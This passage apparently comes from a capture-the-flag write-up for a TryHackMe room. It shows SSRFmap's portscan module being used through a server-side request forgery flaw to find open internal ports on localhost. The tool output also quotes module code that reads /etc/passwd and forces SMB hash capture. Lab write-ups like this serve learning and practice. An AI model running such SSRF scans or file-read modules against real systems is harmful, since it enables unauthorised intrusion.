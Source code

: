 When we have this type of vulnerability it's always good practice to check for internal open ports.
### SSRFmap

We can use [SSRFmap](../../3%20-%20Tags/Hacking%20Tools/SSRFmap.md) a tool that automates the internal scan and wait for results (create the file with request) :

```bash
┌──(.venv)─(mdn0x㉿mdn0xKali)-[~/…/CHALLENGES/Easy/Creative/SSRFmap]
└─$ python3 ssrfmap.py -r request.txt -p url -m portscan
 _____ _________________                     
/  ___/  ___| ___ \  ___|                    
\ `--.\ `--.| |_/ / |_ _ __ ___   __ _ _ __  
 `--. \`--. \    /|  _| '_ ` _ \ / _` | '_ \ 
/\__/ /\__/ / |\ \| | | | | | | | (_| | |_) |
\____/\____/\_| \_\_| |_| |_| |_|\__,_| .__/ 
                                      | |    
                                      |_|    
[INFO] Log file '/home/mdn0x/THM/CHALLENGES/Easy/Creative/SSRFmap/SSRFmap.log'
./modules/readfiles.py:19: SyntaxWarning: invalid escape sequence '\/'
  "\/\/etc/passwd",
./modules/smbhash.py:8: SyntaxWarning: invalid escape sequence '\S'
  description   = "Force an SMB authentication attempt by embedding a UNC path (\\SERVER\SHARE) "
[INFO]:Module 'portscan' launched !

[15:06:25] IP:127.0.0.1   , Found filtered  port n°3389                    
[15:06:25] IP:127.0.0.1   , Found open      port n°80                    
[15:06:25] IP:127.0.0.1   , Found filtered  port n°8080
[15:07:07] IP:127.0.0.1   , Found open      port n°1337 
```

And we found port 1337 open on localhost let's try to see it from the URL checker :

![Pasted image 20250730151107.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250730151107.png)
